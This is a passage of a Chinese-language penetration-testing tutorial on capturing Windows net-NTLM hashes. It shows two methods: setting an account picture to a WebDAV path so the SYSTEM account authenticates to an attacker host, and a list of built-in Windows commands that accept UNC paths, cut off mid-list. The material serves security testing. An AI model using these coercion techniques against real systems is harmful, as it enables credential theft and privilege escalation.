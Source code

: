 适用于Windows 10/2016/2019

在更改账户图片处。

![image-20191125005509564](https://p2.ssl.qhimg.com/t019c8338b41bc63f6a.png)

用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户\(域内是机器用户\)也去访问172.16.100.180，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个可以用来提权。后面会详细讲。

## 0x02 系统命令携带UNC路径

这个比较鸡肋，都能执行命令了，干啥不行呢。但作为一种场景，也说明下。说不定有些限制的命令注入就是支持传进UNC路径呢。我平时在测试的时候一般都是用 `dir \\ip\xxx`来做测试的，很多cmd命令是支持传进UNC路径的，执行的时候我们就可以拿到用户的net-ntlm hash了。至于有哪些命令。这篇文章总结了一些命令,总结得挺全面的。 [内网渗透——针对hash的攻击](https://www.anquanke.com/post/id/177123)

```text
> net.exe use \hostshare 
> attrib.exe \hostshare  
> bcdboot.exe \hostshare  
> bdeunlock.exe \hostshare  
> cacls.exe \hostshare  
> certreq.exe \hostshare #(noisy, pops an error dialog) 
> certutil.exe \hostshare  
> cipher.exe \hostshare  
> ClipUp.exe -l \hostshare  
> cmdl32.exe \hostshare  
> cmstp.exe /s \hostshare  
> colorcpl.exe \hostshare #(noisy, pops an error dialog)  
> comp.exe /N=0 \hostshare \hostshare  
> compact.exe \hostshare  
> control.exe \hostshare  
> convertvhd.exe -source \hostshare -destination \hostshare  
> Defrag.exe \hostshare  
> diskperf.exe \hostshare  
> dispdiag.exe -out \hostshare  
> doskey.exe /MACROFILE=\hostshare  
> esentutl.exe /k \hostshare  
> expand.exe \hostshare  
> extrac32.exe \hostshare  
> FileHistory.exe \hostshare #(noisy, pops a gui)  
> findstr.exe * \hostshare  
> fontview.exe \hostshare #(noisy, pops an error dialog)  
> fvenotify.exe \hostshare #(noisy, pops an access denied error)  
> FXSCOVER.exe \hostshare #(noisy, pops GUI)  
> hwrcomp.exe -check \hostshare  
> hwrreg.exe \hostshare  
> icacls.exe \hostshare   
> licensingdiag.exe -cab \hostshare  
> lodctr.exe \hostshare  
> lpksetup.exe /p \hostshare /s  
> makecab.exe \hostshare  
> msiexec.exe /update \hostshare /quiet  
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
> mspaint.exe \hostshare #(noisy, invalid path to png error)  
> msra.exe /openfile \hostshare #(noisy, error)  
> mstsc.exe \hostshare #(noisy, error)  
> netcfg.exe -l \hostshare -c p -i foo
```
